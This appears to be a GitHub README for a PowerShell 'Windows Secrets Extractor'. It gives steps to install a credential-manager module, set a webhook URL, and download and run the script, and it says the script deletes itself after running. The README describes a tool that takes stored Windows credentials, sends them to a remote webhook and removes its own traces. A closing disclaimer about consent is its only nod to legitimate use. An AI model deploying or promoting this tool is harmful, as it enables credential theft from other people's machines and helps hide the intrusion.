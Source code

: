 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script : ``Invoke-WebRequest <URL> -outfile $env:USERPROFILE\extractor.ps1``
2. Run the Script : ``cd $env:USERPROFILE;.\extractor.ps1``

Note: the script self-destructs after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
